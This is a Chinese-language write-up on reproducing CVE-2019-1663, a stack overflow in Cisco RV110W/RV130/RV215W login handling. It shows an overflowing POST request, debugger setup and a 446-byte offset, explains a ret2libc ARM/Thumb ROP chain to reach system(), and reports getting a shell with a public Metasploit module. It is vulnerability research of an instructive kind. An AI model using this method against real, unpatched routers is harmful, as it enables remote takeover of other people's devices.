










# （CVE-2019-1663）堆栈缓冲区溢出漏洞

> 原文：[http://book.iwonder.run/iot/Cisco/CVE-2019-1663.html](http://book.iwonder.run/iot/Cisco/CVE-2019-1663.html)

## 一、漏洞简介

CVE-2019-1663 是一个影响 Cisco 的多个低端设备的堆栈缓冲区，由于管理界面没有对登录表单的 pwd 字段进行严格的过滤，底层在处理请求时，strcpy 函数导致堆栈溢出，未经身份验证的远程攻击者可以在设备上执行任意代码

## 二、漏洞影响

Cisco RV110W <1.2.1.7 Cisco RV130/RV130W < 1.0.3.45 Cisco RV215W <1.3.0.8

## 三、复现过程

### 0x01 固件提取

这里我使用时 Cisco RV130W 1.0.3.44 进行测试的，binwalk 对固件进行提取


可以看出文件系统是 squashfs,并且是小端存储方式,得到一个类 Linux 目录



### 0x02 分析处理请求

使用 grep -r “http”来查找处理 http 请求的二进制文件



根据之前分析的多个嵌入式设备的经验，猜测这个可能就是处理 http 请求的底层文件

### 0x03 漏洞分析

对 Web 登录界面的 login.cgi 发送如下的 POST 请求

```
POST /login.cgi HTTP/1.1
Host: 10.10.10.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.2/
Content-Type: application/x-www-form-urlencoded
Content-Length: 137
Connection: close
Upgrade-Insecure-Requests: 1

submit_button=login&submit_type=&gui_action=&wait_time=0&change_action=&enc=1&user=cisco&pwd=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&sel_lang=EN 
```

这里向 pwd 发送 32 字节的值，对登录界面的 http 处理请求在 IDA 中的是 sub_2C614()，地址是 0x0002C614


函数将 POST 请求的参数进行解析，存储到.bss 段


然后，将 pwd 参数的值从.bss 段中提取，调用 strcpy 将值存到动态分配的内存中



对于 strcpy 我们都很熟悉，它存在的安全问题也十分严峻，并且由于没有开启 PIE / ASLR，所以可以随意的进行溢出操作

这里使用 gdb 进行远程调试，确定能够发生溢出的字节数，首先设置 cisco,作为 gdb 调试的服务端，gdbserver 配置

```
# wget http://10.10.10.1:8000/gdbserver //从本机下载到 qemu 模拟的 cisco 环境中
#chmod 777 ./gdbserver                  //给权限
# ps -w | grep httpd                   //查找 httpd 开启的进程号
 2451 0          5472 S   ./usr/sbin/httpd 
 2454 0          1196 S   grep httpd 
# ./gdbserver :1234 --attach 2451      //这里的 1234 是开启监听的端口号，--attach 添加的是 httpd 的进程号
Attached; pid = 2451
Listening on port 1234
                                    //然后成功监听 
```

编译 arm-gdb-linux

```
tar xvf gdb-7.8.1.tar.gz
cd gdb-7.8.1
mkdir arm-gdb
sudo chmod 777 arm-gdb
sudo apt-get install texinfo
./configure --target=arm-linux  --prefix=/home/clb/1tools/gdb-7.8.1/arm-gdb
make && make install 
```

然后在 arm-gdb 下的 bin 目录中就有用于调试的 arm-linux-gdb，配置调试选项

```
./arm-linux-gdb 
gef> set architecture arm   //确定要调试的是 arm 架构
gef> set follow-fork-mode child  //确定调试的进程
gef> set solib-search-path /home/clb/1iot/firmware/cisco/_RV130.bin.extracted/squashfs-root/lib/ //加载要用到的 lib 文件
gef> file /home/clb/1iot/firmware/cisco/_RV130.bin.extracted/squashfs-root/usr/sbin/httpd  //加载调试文件
gef> target remote 10.10.10.2:1234  //与远程建立连接 
```

已经建立调试连接，可以进行调试了

查找溢出的位置，使用 pattern 生成 512 个字符串

```
gef➤  patter create 512
[+] Generating a pattern of 512 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaaf
[+] Saved as '$_gef0' 
```

通过 curl 发送 POST 请求查找溢出的位置

```
gef➤  c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x616d6560 in ?? () 
```

通过 pattern 确定溢出的大小

```
gef➤  pattern search 0x616d6561
[+] Searching '0x616d6561'
[+] Found at offset 446 (little-endian search) likely 
```

我们可以确定要进行填充的字符串是有 446 个字节

这里使用 Ret2Libc 进行利用。**ret2libc** 这种攻击方式主要是针对 **动态链接(Dynamic linking)** 编译的程序，因为正常情况下是无法在程序中找到像 **system() 、execve()** 这种系统级函数(如果程序中直接包含了这种函数就可以直接控制返回地址指向他们，而不用通过这种麻烦的方式)。因为程序是动态链接生成的，所以在程序运行时会调用 **libc.so (程序被装载时，动态链接器会将程序所有所需的动态链接库加载至进程空间，libc.so 就是其中最基本的一个)**，**libc.so** 是 linux 下 C 语言库中的运行库**glibc** 的动态链接版，并且 **libc**.**so** 中包含了大量的可以利用的函数，包括 **system() 、execve()** 等系统级函数，我们可以通过找到这些函数在内存中的地址覆盖掉返回地址来获得当前进程的控制权。通常情况下，我们会选择执行 **system(“/bin/sh”)** 来打开 shell。这里我们使用 vmmap 查看调用的 lib 文件有哪些



注：由于是在模拟器中查找的 lib 文件的起始地址，所以和在真机中的地址可能不太一样

这里我们选择具有执行权限的 libc.so.0 文件，使用 radare2 对 libc.so.0 文件进行搜索 system 函数


这里的 system 函数的地址是偏移地址，偏移地址加上 vmmap 得到的起始地址就是，我们通过下断点得到 system 函数的地址，然后通过计算可以发现地址完全正确



这时我们已经知道了一些关键的地址，那么这个时候我们就需要构造一个 ROP 链，来实现地址的跳转

这里使用了一款工具 Ropper，因为我们存储的位置位于堆栈，所以查找跟堆栈有关的指针 SP



这里我选择了 0x00041308 的指令，因为这里有一个关于指令跳转的指令 BLX，如果 r2 存的值是 system 的地址，那么我们就能跳到 system 处，执行系统命令了，并且由于我们的值都存在栈中，所以我们就需要查找和 pop,r2 有关的指令



在 ARM 指令集下我们发现两个对 r2 的操作，但是后面还跟着别的指令，如果我们使用了某一个，那么我们还得继续寻找能够完整构造 payload 的指令。由于 ARM 除了有 ARM 指令外，还有一个 Thumb 指令集，这个指令是 ARM 指令集的一个子集，但是在某些方面比 ARM 指令集要更有效，我们切换指令集去这里看看符合我们要求的指令


这里我们找到了没有其他指令参与并且堆栈操作十分符合我们要求的指令，下面就是我们构造的堆栈的排列方式



首先排布的是 target1，这条指令就是对栈就行弹出的操作，首先将 system 的地址弹出到 r2，然后后面无用的地址弹出到 r6，最后将 target2 的地址弹出到 r15 中，并且 r15 中存储的还是正在取指的地址。紧接着执行 r15 所指向的地址，首先将 sp 的地址存储到 r0 中，然后执行 blx 跳转指令并且切换指令集，并且跳转到 r2 的地址，也就是 system 的地址，那么这时候就成功执行 system 函数，到此整个 ROP 链也就执行完毕

### 0x04 漏洞复现

这里我们利用的是 exploit-db 上的 exp


设置 rhosts,lhosts 和 target，然后直接 exploit，就能直接获得 shell 权限，这里我在 vps 上执行的


成功执行 ifconfig 命令

### 0x05 exp 脚本分析


这里存储就是偏移地址，libc_base 的地址，system 的偏移地址，gadget1 的偏移地址，gadget2 的偏移地址，这些地址就是真机中真正的偏移地址



这里就是根据不同的 target 生成不同的 payload



这里就是我们对 Msf 生成的 payload 进行输出，可以看到被攻击的设备下载了可以在 ARM 平台进行回来的文件，并给与权限并执行，最终创建一个 shell

## 参考链接

> [http://lab.xinruisec.com/2019/09/20/CVE-2019-1663-Cisco%E7%9A%84%E5%A4%9A%E4%B8%AA%E4%BD%8E%E7%AB%AF%E8%AE%BE%E5%A4%87%E7%9A%84%E5%A0%86%E6%A0%88%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/](http://lab.xinruisec.com/2019/09/20/CVE-2019-1663-Cisco 的多个低端设备的堆栈缓冲区溢出漏洞分析/)

